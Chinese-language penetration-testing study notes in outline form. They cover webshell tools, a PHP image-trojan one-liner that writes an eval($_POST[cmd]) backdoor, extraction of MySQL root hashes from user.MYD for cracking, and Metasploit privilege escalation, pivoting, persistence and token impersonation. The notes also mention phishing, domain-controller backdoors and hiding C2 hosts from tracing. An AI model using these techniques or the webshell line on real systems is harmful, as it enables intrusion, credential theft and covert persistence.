 # 渗透学习笔记

- 菜刀类的webshell 管理工具使用：如 antsword, bihinder等。
- 常用一句话shell（任意文件上传漏洞）
- MIME content-type:分类类型/具体类型 参考 developer.mozilla.org/zh-CN/docs/Web/HTTP
- PHP `_FILES`
- hash破解网站：https://yq.aliyun.com/articles/608365
- mysql hash

MYSQL数据库的认证密码有两种方式:
- MYSQL 4.1版本之前是MYSQL323加密;
- MYSQL 4.1和之后的版本都是MYSQLSHA1加密.

MYSQL数据库中自带Old_Password（str）和Password（str）函数,它们均可以在MYSQL数据库里进行查询，前者是MYSQL323加密，后者是MYSQLSHA1方式加密。

以MYSQL323方式加密

`SELECT Old_Password('bbs.antian365.com');`
查询结果MYSQL323 = 10c886615b135b38

（2）以MYSQLSHA1方式加密

`SELECT Password('bbs.antian365.com');`

在MYSQL数据库中所有设置默认都保存在“C:\Program Files\MYSQL\MYSQL Server 5.0\data\MYSQL” 或 “/var/lib/mysql”中，也就是安装程序的data目录下，如图2所示，有关用户一共有三个文件即user.frm、user.MYD和user.MYI，MYSQL数据库用户密码都保存在user.MYD文件中，包括root用户和其他用户的密码。MYSQL数据库文件共有“frm”、“MYD”“和MYI”三种文件，“.frm”是描述表结构的文件，“.MYD”是表的数据文件，“.MYI”是表数据文件中任何索引的数据树。

使用UltraEdit-32编辑器直接打开user.MYD文件，打开后使用二进制模式进行查看，如图3所示，可以看到在root用户后面是一串字符串，选中这些字符串将其复制到记事本中，这些字符串即为用户加密值，即506D1427F6F61696B4501445C90624897266DAE3。将MYSQL用户密码字符串加入到Cain破解列表

- 渗透中常用的php函数：phpinfo(); eval();
- php http常用方法变量： $_POST $_REQUEST
- 查找常见的webshell检测列表，例如：使用`grep -R 'eval($_)' /目录`可以进行简单的检测。fgrep
- linux 系统中的敏感文件
- 网站下的敏感文件
- 图片木马 ,制作图片木马 `<?fputs(fopen("shell20.php","w"),'?php eval($_POST[cmd]);?>')?>`
- 收集常用的webshell，一句话
- 如何查看某个文件由谁上传、编辑？
- 如何设置cc主机？防止溯源
- AWVS
- APPSCAN
- MYSQL 中有 information_schema，其它数据类似的？
- 可用的xss
- netsh命令使用

## msf

- meterpreter使用
  - shell，exit
  - getsystem 提权命令
  - 设置跳板机 设置跳板机上的路由 run autoroute -s ip/24
- 增加用户 命令 net user joe 
- db_map -O 某个ip
- RTF_11882_0802 钓鱼邮件 python 工具。
- exploit/windows/misc/hta_server
    - meterpreter下 run persistence
    - run hushdump

- windows/smb/psexec
- meterpreter use list_tokers -U 冒充令牌。

- 攻击邮件服务器，获取邮件
- 给内网主机发送钓鱼恶意文件
- 域控登录，安装后门
- 假冒令牌

msfvenom -p -e -i -f LHOST LPORT

- exploit/multi/handler
- 

## 域控

- sysvol
- 域控admin 密码解密
- 